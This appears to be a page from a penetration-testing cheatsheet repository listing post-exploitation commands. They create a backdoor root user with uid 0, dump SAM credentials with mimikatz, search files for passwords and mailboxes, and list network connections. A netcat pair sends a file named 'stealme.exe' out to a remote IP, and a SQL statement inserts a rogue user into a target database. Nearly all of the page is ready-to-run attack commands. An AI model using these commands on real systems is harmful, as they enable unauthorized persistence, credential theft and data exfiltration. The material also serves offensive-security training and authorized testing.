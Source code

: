 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
* [One-liner: useradd and chpasswd](#one-liner-useradd-and-chpasswd)
* [Dump Passwords](#dump-passwords)
* [Find Password Files](#find-password-files)
* [Find Emailboxes](#find-emailboxes)
* [Get Network Connections](#get-network-connections)
* [Exfil via Netcat](#exfil-via-netcat)

## One-liner: useradd and chpasswd
```bash
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 victor
```

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
# all connections, no name resolution, and print owning PID 
netstat -ano 

# print filepath of each network-connected binary
(Get-NetTcpConnection).OwningProcess | ForEach-Object { Get-Process -Id $_ | Select-Object -ExpandProperty Path } | Sort-Object | Get-Unique
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```


# Cheatsheets - Effect Web Apps
Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/5_effect.md">Top of Page</a> |
  <a href="/CheatSheets/5_effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
